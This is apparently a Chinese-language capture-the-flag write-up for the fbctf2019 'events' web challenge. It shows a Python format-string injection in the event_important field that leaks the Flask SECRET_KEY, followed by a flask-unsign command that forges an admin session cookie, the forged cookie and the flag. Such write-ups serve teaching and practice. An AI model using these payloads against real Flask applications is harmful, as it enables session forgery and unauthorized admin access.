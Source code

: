 # events

Solved: 23

### [English Version](https://github.com/w181496/CTF/blob/master/fbctf2019/events/README_en.md)

<br>

這題其實一開始我們方向全錯

一直往cookie去踹

他的 cookie 由三部分組成: data, timestamp, signature

可以由以下腳本去解 data 和 timestamp:

```python
from itsdangerous import base64_decode

s = "ImFzZCI.XPVouA.bToZpDkYXf5CMWcolC-CWgdaDdU"
data, timestamp,secret = s.split('.')

print(base64_decode(data))
print(int.from_bytes(base64_decode(timestamp),byteorder='big'))
```

但後來我從`asd:asd`這個帳號發現有人成功利用 python format string 漏洞撈到東西

一開始還以為是有人故意放假的 Response 混淆大家

結果發現重新整理，address 也會跟著變，才知道是真的，差點笑死

![](https://github.com/w181496/CTF/blob/master/fbctf2019/events/asd.png)

所以後來我才開始踹 format string

然後發現漏洞在: `event_name=a&event_address=a&event_important=__dict__`

=> `{'_sa_instance_state': <sqlalchemy.orm.state.InstanceState object at 0x7fb2c5ba2588>, 'fmt': '{0.__dict__}', 'show': '__dict__', 'name': 'a', 'owner_id': 67, 'address': 'a', 'id': 5335}`

`event_important` 參數可以 injection

而 config 在: `event_name=a&event_address=a&event_important=__class__.__init__.__globals__[app].config`

=>

```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'events_sesh_cookie', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///my.db', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```

其中 `SECRET_KEY`: `fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y`

用這把 key 去簽 cookie 就行了

簽 key 可以用 flask-unsign 這個 package 去簽 (thanks my teammate @bookgin)

但有點難裝，我是直接用 google colab 去跑XD

![](https://github.com/w181496/CTF/blob/master/fbctf2019/events/colab.png)

`!flask-unsign --secret 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y' --sign --cookie "admin"`

=> `ImFkbWluIg.XPSrLA.NdkV5Vsk-a5gDFlll1JcU2SumDI`

把這個塞進 `user` cookie 裡就能拿到 flag


![](https://github.com/w181496/CTF/blob/master/fbctf2019/events/admin.png)


`fb{e@t_aLL_th0s3_c0oKie5}`
